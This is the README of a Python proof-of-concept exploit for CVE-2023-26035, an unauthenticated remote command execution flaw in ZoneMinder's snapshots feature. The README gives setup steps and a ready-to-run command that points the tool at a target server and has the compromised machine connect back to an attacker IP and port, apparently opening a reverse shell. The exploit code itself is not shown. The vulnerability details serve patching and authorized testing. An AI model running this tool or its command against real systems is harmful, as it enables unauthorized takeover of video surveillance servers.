 # Zoneminder Unauthenticated RCE (CVE-2023-26035) POC

This is a script written in Python that allows the exploitation of the **Zoneminder's** security flaw in the described in **CVE 2023-26035**. The system is vulnerable in versions preceding **1.36.33** and **1.37.33.**

## Usage

Clone the repository to your machine and install the dependencies using **pip** (it is recommended to use **virtualenv** to create an environment to separate these installations from global installations)

```bash
git clone https://github.com/m3m0o/zoneminder-snapshots-rce-poc
cd zoneminder-snapshots-rce-poc
pip install -r requirements.txt
```

The script needs the **target URL** with the **Zoneminder's** root path (like **http://example.com/zm, http://example.com** or **http://example.com/zoneminder)**, the **IP** or **domain** for the target machine to connect and the **port** for the target machine to connect. Here's an example:

```bash
python3 main.py -u http://zoneminder.target:8000 -i 10.10.14.56 -p 443
```

![script-demo](https://iili.io/Ju3w7t9.gif)

## References

[Unauthenticated RCE in snapshots](https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-72rg-h4vf-29gr)

[Rapid7 Vulnerability & Exploit Database ZoneMinder Snapshots Command Injection](https://www.rapid7.com/db/modules/exploit/unix/webapp/zoneminder_snapshots/)
